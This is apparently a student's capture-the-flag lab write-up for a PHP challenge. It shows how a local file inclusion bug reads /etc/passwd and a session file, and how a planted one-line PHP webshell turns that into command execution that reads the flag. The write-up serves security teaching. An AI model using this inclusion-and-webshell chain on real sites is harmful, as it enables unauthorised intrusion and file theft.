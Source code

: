 ```yaml
---
title: Simple Web 0x07(Lab - `HakkaMD`)
tags: [NTUSTWS, CTF, Web]

---
```


# Simple Web 0x07(Lab - `HakkaMD`)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8401

## Background
[資安這條路-Local File Inclusion](https://ithelp.ithome.com.tw/articles/10241555)

## Exploit - LFI to RCE
1. First things first, the website has `LFI` problem
`http://h4ck3r.quest:8401/?module=/etc/passwd`
![](https://i.imgur.com/Efl4E0c.png)
2. <font color="FF0000">**通靈**</font>
It provided `phpinfo()` so that we can check the save address of session.
![](https://i.imgur.com/SO727sY.png)
The setting is default, thus we can use `LFI` to read session file:
`http://h4ck3r.quest:8401/?module=/tmp/sess_0qvmvnk5lh140239e6ol9l16h1`
![](https://i.imgur.com/AiLGZJA.png)
We can see that session file store the data of what we enter. Therefore, we could enter `webshell` to get shell
4. `webshell`
`<?php system($_GET['sh']); ?>`
↓
`http://h4ck3r.quest:8401/?module=/tmp/sess_2f0dilri9ju4553th2bkclefal&sh=ls%20/`
↓
![](https://i.imgur.com/kqlIf6z.png)
↓
`http://h4ck3r.quest:8401/?module=/tmp/sess_2f0dilri9ju4553th2bkclefal&sh=cat%20/flag_aff6136bbef82137`
4. Then we got flag!!!